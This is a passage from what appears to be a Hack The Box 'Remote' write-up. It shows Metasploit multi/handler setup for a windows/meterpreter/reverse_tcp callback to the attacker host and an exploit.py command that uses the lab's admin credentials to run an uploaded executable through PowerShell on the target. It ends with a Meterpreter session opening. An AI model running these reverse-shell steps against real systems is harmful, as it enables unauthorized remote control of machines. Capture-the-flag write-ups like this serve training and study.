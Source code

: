   |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: You can use help to view all available commands

msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.10.14.30
lhost => 10.10.14.30
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run                                                                                          

[*] Started reverse TCP handler on 10.10.14.30:4444
{% endhighlight %}

Using the exploit we remotely run the exe we just uploaded:

{% highlight bash %}
kali@kali:~/HTB/Remote$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "c:/inetpub/wwwroot/media/1033/final.exe"
{% endhighlight %}

And we get a meterpreter session going:

{% highlight bash %}
[*] Started reverse TCP handler on 10.10.14.30:4444                                                                        
[*] Sending stage (176195 bytes) to 10.10.10.180                                                                           
[*] Meterpreter session 1 opened (10.10.14.30:4444 -> 10.10.10.180:49719) at 2020-08-27 04:06:02 -0400                     

meterpreter >      
{% endhighlight %}
